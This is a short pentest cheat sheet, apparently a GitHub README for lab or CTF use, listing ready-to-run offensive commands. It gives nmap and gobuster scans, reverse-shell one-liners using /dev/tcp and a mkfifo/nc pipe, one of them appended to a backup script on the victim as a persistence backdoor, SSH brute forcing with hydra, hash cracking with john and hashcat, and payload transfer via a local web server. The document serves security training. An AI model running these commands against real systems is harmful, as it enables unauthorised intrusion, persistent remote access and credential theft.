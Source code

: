 # Pentest CheatSheet

## Simple shortcuts

To keep your victim adress IP choose one of this solutions :

Add the IP adress to your hosts file
```
sudo vim /etc/hosts

<IP> victim_serveur
```
Add the IP adress to your local environment. Be carreful it's not shared on all of your terminals.
```
export IP=<IP>
```

## SCAN SERVER 

-sC Scan with scripts  
-sV Scan ports and show version  
-A  Scan OS and version  
-p- Scan all ports  
-oN Output to a file  

```
nmap -sC -sV -oN nmap.log <IP>
nmap -sC -sV -A -oN nmap_all.log <IP> 
nmap -sC -sV -A -p- -oN nmap_allports.log <IP> 
```
	
## SCAN HIDDEN WEB FILES

Scan a server with web content in order to find hidden folder or files.  
-u Adress (you can precise port with ':')  
-w Dictionnary  
-x Extension file to search for  
-o Output to a file  

```
gobuster dir -u http://<IP> -w directory-list-2.3-medium.txt -o gobuster.txt
gobuster dir -u http://<IP> -w directory-list-2.3-medium.txt -o gobuster.txt -x txt,js,html,php
```
## REVERSE SHELL

CheatSheet: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

### Open a reverse shell

Victim :
```
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f" >> /usr/local/bin/main_backup.sh
```
Listener:
```
nc -lvp <PORT>
```

### Stabilyze your shell

Open a tty
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Enable autocomplete and special characters once you got a reverse shell:  
```
<CTRL-Z>  
stty raw -echo; fg <ENTER><ENTER>  
```
## HASH

### Analyze Hash :

online : 
https://www.tunnelsup.com/hash-analyzer/

cmd :
```
hashid <HASH>
hash-identifier
```
### Decrypt Hash :

online :  
https://md5decrypt.net/  
https://gchq.github.io/CyberChef/  

cmd:

Base64 decrypt:
```
echo '<HASH>' | base64 -d
```

Other :
```
john --format=<JOHN-FORMAT> --wordlist=rockyou.txt hash.txt
hashcat -m <HASHCAT-FORMAT> -a 0 -o cracked.txt hash.txt rockyou.txt
```

## BRUTEFORCE SSH

-l Single User  
-L User file  
-p Single Password  
-P Password file  
```
hydra -l <USER> -P rockyou.txt <IP> ssh -t 4
```

## TRANSFERT FILES

via ssh:
```
scp <FILE-PATH> <USER>@<IP>:<FILE-PATH>
```

Host web server on your machine and wget on the victim:
```
python3 -m http.server 4444
wget <IP>:4444
```

## USEFULL FILE

### Dictionnary

Password :  
rockyou.txt --> /usr/share/wordlists/rockyou.txt.gz  

Hidden web folder and file:  
Quite complete : directory-list-2.3-medium.txt --> /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  
Short ones more or less complete: small.txt - common.txt - big.txt --> /usr/share/dirb/wordlists/  

### Check local vulns

linpeas.sh --> https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS